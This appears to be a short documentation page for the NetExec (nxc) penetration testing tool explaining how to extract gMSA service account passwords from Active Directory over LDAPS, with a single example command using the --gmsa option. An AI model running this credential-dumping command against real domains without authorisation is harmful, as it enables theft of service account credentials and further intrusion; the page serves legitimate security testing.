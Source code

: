 # Dump gMSA

## Extract gmsa credentials accounts

### Using the protocol LDAP you can extract the password of a gMSA account if you have the right.

## LDAPS is required to retrieve the password, using the --gmsa LDAPS is automatically selected

    $ nxc ldap <ip> -u <user> -p <pass> --gmsa

